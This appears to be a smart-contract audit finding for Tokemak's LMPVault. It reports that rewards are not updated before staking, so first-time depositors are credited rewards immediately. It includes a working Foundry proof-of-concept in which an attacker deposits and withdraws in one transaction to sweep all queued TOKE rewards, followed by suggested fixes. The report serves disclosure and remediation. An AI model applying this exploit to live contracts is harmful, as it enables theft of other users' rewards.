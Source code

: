 Bald Turquoise Shetland

high

# Malicious actor can steal rewards because rewards are not updated prior staking
## Summary

When a user deposits/mints he starts gathering rewards. The reward logic incorrectly assigns initial rewards without initializing `userRewardPerTokenPaid[account]` which leads to immediate rewards earned.

## Vulnerability Detail
When a user deposits `_afterTokenTransfer` is called **AFTER** the users balance is updated.
Therefore `rewarder.stake` will be called after the balance is updated (to start earning rewards).
```solidity
    function _afterTokenTransfer(address from, address to, uint256 amount) internal virtual override {
-------
        if (to != address(0)) {
            rewarder.stake(to, amount);
        }
    }
```

`stake` calls `_updateReward` to update the rewards earned for the account
```solidity
    function stake(address account, uint256 amount) public onlyStakeTracker {
        _updateReward(account);
-------
```

`_updateReward` updates `rewards[account]` and `userRewardPerTokenPaid[account]`
```solidity
    function _updateReward(address account) internal {
--------
        rewardPerTokenStored = rewardPerToken();
--------
        if (account != address(0)) {
            earnedRewards = earned(account);
            rewards[account] = earnedRewards; 
            userRewardPerTokenPaid[account] = rewardPerTokenStored;
        }
--------
    }

    function earned(address account) public view returns (uint256) {
        return (balanceOf(account) * (rewardPerToken() - userRewardPerTokenPaid[account]) / 1e18) + rewards[account];
    }
```

ISSUE -> In first staking the calculation of the earned rewards from `earned(address account)` will be:
```solidity
balanceOf(account) * rewardPerToken() / 1e18
``` 
since `userRewardPerTokenPaid[account])` and `rewards[account]` were never initialized. 
This means that `rewards[account]` will be set to the balance of the user multiplied by the current `rewardPerToken` **immediately**.

`_updateReward` should be called before updating the balance.

Reward distribution will be unbalanced and later depositors will receive more rewards then earned

Additionally a hacker can leverage this bug to steal all rewards:
When a user withdraws `_beforeTokenTransfer` is called to withdraw the rewards for the user
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L834
```solidity
    function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
-------
        if (from != address(0)) {
            rewarder.withdraw(from, amount, true);
        }
``` 

Therefore a malicious actor can perform both deposit and withdraw in the same transaction and sweep rewards. (see POC)

## Impact

There are a major implications of this bug
1. Unfair distribution of rewards - later depositor will get a bigger slice of rewards for his staking time then a previous depositor.  (Loss of funds)
2. Malicious actor can steal the rewards. (Loss of funds)

Additionally, both 1 and 2 will make withdrawals of legitimate users revert due to insufficient TOKE rewards

## Code Snippet

The following POC shows how a depositor (ALICE) is supposed to earn all rewards but then in the same transaction the hacker deposits and withdraws and gains all the rewards to himself leaving Alice with 0 rewards.

Add the following test to `LMPVault-Withdraw.t.sol`
```solidity
    function test_steal_reward() public {
        _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
        _lmpVault.rewarder().addToWhitelist(address(this));

        // Alice Deposit 10_000 to vault
        address alice = address(0xdeadbeef);
        _asset.mint(alice, 1_000);
        vm.startPrank(alice);
        _asset.approve(address(_lmpVault), 1_000);
        _lmpVault.deposit(1_000, alice);
        vm.stopPrank();

        // rewarder adds 1_000_000 rewards to the queue (just under MIN_STAKE_AMOUNT)
        uint256 rewardToAdd = 1_000_000;
        _toke.mint(address(this), rewardToAdd);
        _toke.approve(address(_lmpVault.rewarder()), rewardToAdd);
        _lmpVault.rewarder().queueNewRewards(rewardToAdd);

        // Go to the future to accumulate rewards 
        vm.roll(block.number + 10_000);

        // Validate alice is eligible for ALL rewards
        uint256 aliceReward = _lmpVault.rewarder().earned(alice);
        assertEq(aliceReward, rewardToAdd);

        // Hacker deposits 1_000_000_000
        address hacker = address(0x1337);
        uint256 hackerAmount = 1_000_000_000;
        _asset.mint(hacker, hackerAmount);
        
        vm.startPrank(hacker);
        _asset.approve(address(_lmpVault), hackerAmount);
        uint256 shares = _lmpVault.deposit(hackerAmount, hacker);
        
        // Hacker withdraw 1_000_000_000 tokens
        _lmpVault.withdraw(hackerAmount, hacker, hacker);
        vm.stopPrank();

        // Validate hacker was able to get all his funds back
        assertEq(_asset.balanceOf(hacker), hackerAmount);
        // Validate that hacker was able to receive all rewards (minus 1)
        assertEq(_toke.balanceOf(hacker), rewardToAdd - 1);

        // Validate that alice has no rewards
        aliceReward = _lmpVault.rewarder().earned(alice);
        assertEq(aliceReward, 0);
    }
```

To execute run
```solidity
forge test --match-test "test_steal_reward" -vvv 
```

Expected output:
```solidity
Running 1 test for test/vault/LMPVault-Withdraw.t.sol:LMPVaultMintingTests
[PASS] test_steal_reward() (gas: 748994)
Test result: ok. 1 passed; 0 failed; finished in 8.01ms
```

## Tool used

Manual Review, Foundry

## Recommendation

There are two mitigations that can be placed:
1. Add a `updateReward` function the the `MainRewarder` and call it in `_beforeTokenTransfer`:
```solidity
    function updateReward(address account) public onlyStakeTracker {
        _updateReward(account);
    }
```
```solidity
    function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
        // Nothing to do really do here
        if (from == to) {
            return;
        }

        if (to != address(0)) {
            rewarder.updateReward(to);
        }
-------
```

2. In `_updateReward` check if `userRewardPerTokenPaid[account]` is zero, if so do not update ` rewards[account]`

Same logic should be applied to DestinationVault